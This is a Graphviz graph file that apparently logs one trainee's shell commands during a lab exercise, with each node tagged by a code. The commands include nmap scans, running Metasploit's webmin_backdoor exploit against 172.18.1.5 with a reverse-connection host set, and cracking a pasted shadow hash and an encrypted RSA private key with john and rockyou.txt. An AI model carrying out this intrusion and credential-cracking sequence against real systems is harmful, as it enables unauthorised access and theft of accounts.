 // creating graph for user: 54
digraph {
	node [shape=box]
	0 [label="ping 172.18.1.5 U"]
	1 [label="nmap -p 60000-65536 A0 A1 "]
	2 [label="nmap -p 60000-65535 A0 A1 "]
	3 [label="nmap 172.18.1.5 -p 60000-65535 M0 "]
	4 [label="nmap 172.18.1.5 -p 40000-60000 M0 "]
	5 [label="nmap 172.18.1.5 -p 20000-40000 M0 "]
	6 [label="nmap 172.18.1.5 -p 1000-20000 M0 "]
	7 [label="exit U"]
	8 [label="help U"]
	9 [label="man msf U"]
	10 [label="man msfconsole M2 "]
	11 [label="msfconsole M2 "]
	12 [label="help U"]
	13 [label="nmap 172.18.1.5 -p 10000 M0 "]
	14 [label="man nmap A0 A1 "]
	15 [label="nmap 172.18.1.5 -p 10000 -sV M1 "]
	16 [label="nikto -Help U"]
	17 [label="exit U"]
	18 [label="use exploit/linux/http/webmin_backdoor M8 "]
	19 [label="ls -a A10 "]
	20 [label="cd .msf4 U"]
	21 [label="ls A10 "]
	22 [label="cd modules U"]
	23 [label="ls A10 "]
	24 [label="ls -a A10 "]
	25 [label="cd ~ U"]
	26 [label="search webmin M3 "]
	27 [label="cd exploit M8 "]
	28 [label="search exploit/linux/http M8 "]
	29 [label="search exploit/linux/http/webmin M8 "]
	30 [label="info exploit/linux/http/webmin_packageup_rce M8 "]
	31 [label="searchsploit webmnin A1 A3 "]
	32 [label="exit U"]
	33 [label="apt update U"]
	34 [label="apt install metasploit-framework U"]
	35 [label="ls /usr/share/metasploit-framework A10 "]
	36 [label="ls /usr/share/metasploit-framework/modules A10 "]
	37 [label="ls /usr/share/metasploit-framework/modules/exploits M8 "]
	38 [label="ls /usr/share/metasploit-framework/modules/exploits/linux M8 "]
	39 [label="ls /usr/share/metasploit-framework/modules/exploits/linux/http M8 "]
	40 [label="ls /usr/share/metasploit-framework/modules/exploits/linux M8 "]
	41 [label="msfconsole M2 "]
	42 [label="search webmin M3 "]
	43 [label="search webmin_back M3 "]
	44 [label="search webmin_backdoor M3 "]
	45 [label="use exploit/linux/http/webmin_backdoor.rb M8 "]
	46 [label="show targets A5 "]
	47 [label="show options M5 "]
	48 [label="help U"]
	49 [label="show options M5 "]
	50 [label="set LHOST 172.18.1.5 M6 "]
	51 [label="show options M5 "]
	52 [label="set LHOST M6 "]
	53 [label="exit U"]
	54 [label="msfconsole M2 "]
	55 [label="use exploit/linux/http/webmin_backdoor.rb M8 "]
	56 [label="show options M5 "]
	57 [label="set RHOSTS 172.18.1.5 M6 "]
	58 [label="show options M5 "]
	59 [label="exploit M8 "]
	60 [label="ifconfig U"]
	61 [label="set LHOST 0.0.0.0 M6 "]
	62 [label="exploit M8 "]
	63 [label="run M8 "]
	64 [label="show options M5 "]
	65 [label="show missing A5 "]
	66 [label="show targets A5 "]
	67 [label="check 172.18.1.5 A7 "]
	68 [label="show targets A5 "]
	69 [label="show options M5 "]
	70 [label="set target 0 A6 "]
	71 [label="show options M5 "]
	72 [label="run M8 "]
	73 [label="check 172.18.1.5 A7 "]
	74 [label="back U"]
	75 [label="use exploit/linux/http/webmin_backdoor.rb M8 "]
	76 [label="check 172.18.1.5 A7 "]
	77 [label="show options M5 "]
	78 [label="show targets A5 "]
	79 [label="set target 1 A6 "]
	80 [label="check 172.18.1.5 A7 "]
	81 [label="exit U"]
	82 [label="msfconsole M2 "]
	83 [label="use exploit/linux/http/webmin_backdoor M8 "]
	84 [label="show targets A5 "]
	85 [label="show options M5 "]
	86 [label="check 172.18.1.5 A7 "]
	87 [label="ifconfig U"]
	88 [label="set LHOST 10.1.135.83 M6 "]
	89 [label="check 172.18.1.5 A7 "]
	90 [label="run M8 "]
	91 [label="set RHOSTS 172.18.1.5 M6 "]
	92 [label="run M8 "]
	93 [label="nmap -sn 172.18.1.5/24 M0 "]
	94 [label="arp -a U"]
	95 [label="nmap 172.18.1.1 A0 A1 "]
	96 [label="arp -a U"]
	97 [label="nmap 147.251.6.10 A0 A1 "]
	98 [label="show options M5 "]
	99 [label="ifconfig U"]
	100 [label="msfconsole M2 "]
	101 [label="use exploit/linux/http/webmin/backdoor M8 "]
	102 [label="use exploit/linux/http/webmin/backdoor.rb M8 "]
	103 [label="use exploit/linux/http/webmin/backdoor.br M8 "]
	104 [label="use exploit/linux/http/webmin_backdoor M8 "]
	105 [label="show options M5 "]
	106 [label="set RHOSTS 172.18.1.5 M6 "]
	107 [label="ifconfig U"]
	108 [label="set LHOST 10.1.135.83 M6 "]
	109 [label="run M8 "]
	110 [label="check 172.18.1.5 A7 "]
	111 [label="nmap 10.1.17.4 A0 A1 "]
	112 [label="echo eve:$6$024QHRGPtY7RBi.t$5mfgbDY10e7Q3HiWd2YcHRY2KWj7BRWobrSCe5kCBSw3ZMwEfFvxO625d9aQyswMr9hEGF79I1KvwswSzsklp/:18451:0:99999:7::: > shadow U"]
	113 [label="cat shadow A1 A9 A11 A12 A17 "]
	114 [label="echo eve:x:1003:1003::/home/eve:/bin/bash > passwd U"]
	115 [label="ls A10 "]
	116 [label="unshadow passwd shadow > mypasswd.txt U"]
	117 [label="ls A10 "]
	118 [label="cat mypasswd.txt A1 A9 A11 A12 A17 "]
	119 [label="john mypasswd.txt A14 "]
	120 [label="john shadow A14 "]
	121 [label="echo eve:$6$024QHRGPtY7RBi.t$5mfgbDY10e7Q3HiWd2YcHRY2KWj7BRWobrSCe5kCBSw3ZMwEfFvxO625d9aQyswMr9hEGF79I1KvwswSzsklp/:18451:0:99999:7::: > shadow U"]
	122 [label="cat shadow A1 A9 A11 A12 A17 "]
	123 [label="echo eve:$6$024QHRGPtY7RBi.t$5mfgbDY10e7Q3HiWd2YcHRY2KWj7BRWobrSCe5kCBSw3ZMwEfFvxO625d9aQyswMr9hEGF79I1KvwswSzsklp/:18451:0:99999:7::: > shadow U"]
	124 [label="cat shadow A1 A9 A11 A12 A17 "]
	125 [label="nano shadow U"]
	126 [label="cat shadow A1 A9 A11 A12 A17 "]
	127 [label="unshadow passwd shadow > mypasswd.txt U"]
	128 [label="john mypasswd.txt A14 "]
	129 [label="run M8 "]
	130 [label="echo -----BEGIN RSA PRIVATE KEY----- U"]
	131 [label="Proc-Type: 4 U"]
	132 [label="DEK-Info: AES-128-CBC U"]
	133 [label="Ps9uCxB/vjzzEwZU+BjohF/sb/kaa+thfeYki9iFGqVQpHbPhdZU7JO2rKTU3w4k U"]
	134 [label="2OG1q9DAD07fQPpCmX5vqWAdmeaWq//2k3zRVsadFF3daPGjWs1f61j4/JqYBSDl U"]
	135 [label="yeX8g98mtBLBas7bUFuo4jVroEUaoF0fpa0Up+mOAC3rY3tsprpfofQu+uoXaRRJ U"]
	136 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	137 [label="9lS9eEPebv4V8mUNU+bsh5YQbVrVmryO9BRLBl4ZK82SO7tnyObpWfsa2jLGg4Mp U"]
	138 [label="N/jFdUnWSkA2wEgzupDZmPU6jyJ/BosOxJVkih4oQB1s9BO+HzI7oA5sDfO/gw1R U"]
	139 [label="BdC2V8RnF8i8gwppc2eenbU/PIdDTu6M2LTO4aAM5wxwKXgkTdJuUxmNH4DCFgZ+ U"]
	140 [label="/DJyNP3xqCknFLIVTBwVSsHqnHSN6ZCl8BteFdRsf6kAj6qm1/cAfL73otlGZyR7 U"]
	141 [label="5PHI1jf+WoJVaRKQLzFfaMrY0rhU6TsQTYdm2QYcSszE1fhLdXGNKpathYz1sUhe U"]
	142 [label="RPbgJfB0PuzwpzcKesh5j+AnjKQjZcG1vHnrgvDFnd5VNOOrTzdUnMA0DwwVwm2S U"]
	143 [label="vkjUvPbdIkQlNuBL0FWZl/2vHf/xWWex4Q0plLf7lRWJsCDtiKflKHL/SBFYVy0F U"]
	144 [label="TwKMZJ4885lBJfN3AG9kj4azCLK6IcAuRoxTmAtYrntQWLtDCHyaCW6dZItCtQK2 U"]
	145 [label="pghYqk7inYawVLDG9f5ej+1MYQNfScZYpQ/IEH2jfbRgQsXj7zgtS9ewQoyqBY2o U"]
	146 [label="TC+mWTFkXW5YlN9Bu1uZ2CgYQJF0Dx1ns5x3IeF+U5z56KRqaKFJPfRQgTg62m7e U"]
	147 [label="0v/8aKPlPwfmS28OtxtE96zQI3SAAy7AdwkBepz5Pk9iotqIQPk5fY68wBG67v+a U"]
	148 [label="d712Dnn4OPYaqzMTyWz/dRiWcax9bFhNV+9Gp1OoA7hhBO5daLoul3EYx54vd8N3 U"]
	149 [label="qJkjc4ljMYr9wvRRcWEhlvQV6LTk2FiYOY4tjRneLXMfsb2BUwSFDXDwDL4zVF5X U"]
	150 [label="rk6oUkbp2aFy5SgMwdlm6tc5sHVHVOLTfeyv7AvRUOaGXbbrUBw1rxgswjSO4V5q U"]
	151 [label="anC3ZW1EHY/nUmSq9myKG5rPdgFhqx7lPBb5eXSGcA+rFkxkQwbtROw73mu00IXl U"]
	152 [label="FKuYCbpmfnY0ZBxR9NVh/kRpv5VI013Mwqk2lcuJTc+mjlHOymyXAhY02j218KSm U"]
	153 [label="TleEMFlW9oXD56B21kVdPDP9McdLgC9//2pSh8sI5kJEsNd294g8ju/dDNC5kybN U"]
	154 [label="aqa9d+Nsbodr90LgBOFRdtxUeYihXLS2ZfXE5wYfTwX17ZIoFLuYamE6Og7AllVL U"]
	155 [label="uSoF68eAZXd6R9bL03s9HQvGkSZv8zaFlmK4wRVI5frYMlU5gzD5E/e6Id5X7uCQ U"]
	156 [label="pq5zI0lH1Vf4jlhYpD/PXMmULzR28OIOVrkcUeZPVlv+aIpLd6zbe8mfIEDCzH9G U"]
	157 [label="Q9Z2LPIWU200w5daHsXp/qukKdDn1CB4JinKvtLka3Q4i6EHj+Vp7bvhmFpapjdW U"]
	158 [label="/BXnD+JMm+w9ZTRsHqrXKsAEyVhM99hWoFz2k1s+Q003y/7I/0XmPETD4GJZAfqX U"]
	159 [label="WzolChBDCjWIMZ/9j5JREtzWX3s7+k32TFws/jPKzXEB21M2Szn23pkoXp+zyqT6 U"]
	160 [label="bTXmV+hQf+gS7PjVRthqPONau6on19uDDVXNeuVygP4T8H5v6kAurFVX1rvkbaSm U"]
	161 [label="sCLJmNBb/7o7QR1Hhvo7NN1z85CJr9yxC6MqLbbcv91Mhb3w1Ce2eL+QnhgE86HE U"]
	162 [label="I0lvTSHTPFgvw00pV4bypACc28X+0YjRVRFOxqZxidw256pubOjRjIHIG5n6eMYk U"]
	163 [label="W3XiLqeGN7DLwY8X6RXfqafVQmJR6j3zB/PAoSVh25eTQwl2i1rgYzo0IGcdwUxN U"]
	164 [label="KHGCl8kHWe7ks3KT4+WU9uZZAhAECaWJvLzo2Ba6dst/Ke7KEtmGwv5ExUUvfHve U"]
	165 [label="0mt+olWJFSJa072UPuHe7gWdlexqh0l59q4ohOG+zJke1u74Br9wo6KIv54IqGVS U"]
	166 [label="y2O0rVCjsin3d2h9F0Fp0Xvc3EHZD7ct2HvZEV6x3kUlfdWeHKuF+7wUeTJfSmvq U"]
	167 [label="9+LnogQTclKAVk8htnrxBQh7aPLBAyTaXACAL31bB0ZXfh0yhJX6bXIe+EVPNaf6 U"]
	168 [label="rJf/WLYf6/Lmfgv/ECF+VqdLPGkLT8dEgrajh9t2TaoU+/+mxtGXaJ7Iea9I+g9l U"]
	169 [label="22unE+jCDSQMF9IygWb8HfzBsruZ7IQ+/h7g7XDpEZrJf6+mdmbzBXLwlnnD1XG3 U"]
	170 [label="FEJ08UNnUQsuqoD+vPxunBwkFv5b/5yt0XMu9tZdXk9AW9BdasCIE1bY+au0cnTX U"]
	171 [label="rjmFQ+KmCqH5lReI0Ai3fJ8pnZ2D3/m7AV/1llNaijp9NmriqK0jiVBpnEM+uH3a U"]
	172 [label="WtUQOqd4QS2S8MwjPoBZ0hpXOY0JX95EvWhp58uOy0/o8yYSbb+bZe7g0+MJuF9R U"]
	173 [label="Rj6xI5CiBdDo83VdQHlyaUawTlv/wUpqSRc9xsK/y2dLjzQhAD+QkWbm98jrcAGX U"]
	174 [label="Tlqk1XDm0e9sNcXus5d5pnTWeCH4bnwnQDo0Ot/KljNmnG11/FXuPFnAToOq52Az U"]
	175 [label="SqV4xTHhlfTZQcjVD+Rc44JkIFTr2gzDvcLOOMwcBf232/ySokL9xuMlLVc04Jy2 U"]
	176 [label="pG3A2vBQ1t0A62BglfKCobl9JVRwFhIIh4dzevvvtCuWnXk7AhodGIVF2XnBezou U"]
	177 [label="q5ydQjEjf0ByejEAZt7EM14Ey9sHQhX83OWMb7Brqfzsfapkuplvnj1+kmIrKUaA U"]
	178 [label="ytH5k1zr7ZQ5k2FasEDPwdVjSQfOW8G3CJ8GgpFokCL+KiwfvR3mJBM5ubn0di2z U"]
	179 [label="UG2CX9gT4nU7h9RAhtu2p/F5FEGLVbX5GxJhvKP11MQqSsWI3OY3gTvG6campkyD U"]
	180 [label="r4aMTuuESZSksPLDMwgkYTvWp/qaNnVpqaSHe1p2hk2DvEhIH7eSkK9gAPBLkcJ7 U"]
	181 [label="sah7VmkiXIRvhXdcVA/QXlpG7NfOVGfm/zVDfpWPAGUrGegNb3X5Y6QTzDE4lhcK U"]
	182 [label="nano id_rsa U"]
	183 [label="file id_rsa U"]
	184 [label="john id_rsa A14 "]
	185 [label="john --format=SSH id_rsa A14 "]
	186 [label="ssh2john id_rsa > id_rsa.hash A14 A16 "]
	187 [label="cat id_rsa M12 "]
	188 [label="/usr/sbin/ss2john A14 "]
	189 [label="/usr/sbin/ssh2john A14 A16 "]
	190 [label="locate ssh2john A1 A9 A10 A11 A12 A14 A16 A17 "]
	191 [label="/usr/share/john/ssh2john.py id_rsa > id_rsa.hash A14 A16 "]
	192 [label="cat id_rsa.hash M12 "]
	193 [label="john id_rsa.hash A14 "]
	194 [label="ls /usr/share A10 "]
	195 [label="ls /usr/share/wordlists A10 "]
	196 [label="john id_rsa.hash --wordlist=/usr/share/wordlists M14 "]
	197 [label="john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	rankdir=LR
}
